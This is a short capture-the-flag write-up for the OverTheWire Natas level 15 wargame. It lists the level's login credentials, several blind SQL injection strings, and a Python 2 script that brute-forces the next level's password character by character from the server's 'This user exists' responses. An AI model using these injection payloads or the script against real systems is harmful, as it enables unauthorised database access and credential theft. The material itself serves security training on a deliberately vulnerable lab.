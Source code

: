 ### natas15

**Target:**

```
natas15
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

**Vuln:** blind sqli

```
natas16" or password="a"#
natas16" and ascii(substring(password,1,1))="a"#
natas161" or ascii(substring(username,1,1))=110#
```

Exploit:

```
cat > natas15-exploit.py <<EOF
import os, sys
import httplib
import urllib
import base64
import json
import re
import binascii
import string

user = "natas15"
passwd = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

authToken = urllib.quote(base64.b64encode(user + ":" + passwd))

headers = {
    "Content-type": "application/x-www-form-urlencoded",
    "Authorization": "Basic " + authToken,
}

# connection via proxy
conn = httplib.HTTPConnection("127.0.0.1", 8080)

key=""
keyLen = 32

for i in xrange(1, keyLen + 1):
    for c in string.printable:
        payload = 'natas16" and ascii(substring(password,%d,1))=%d#' % (i, ord(c))
        params = urllib.urlencode({'username': payload})
        conn.request("POST", "http://natas15.natas.labs.overthewire.org", params, headers)
        resp = conn.getresponse().read()
        #print resp
        if resp.find("This user exists.") != -1:
            key += c
            break

print "Key: " + key

conn.close()
EOF
```
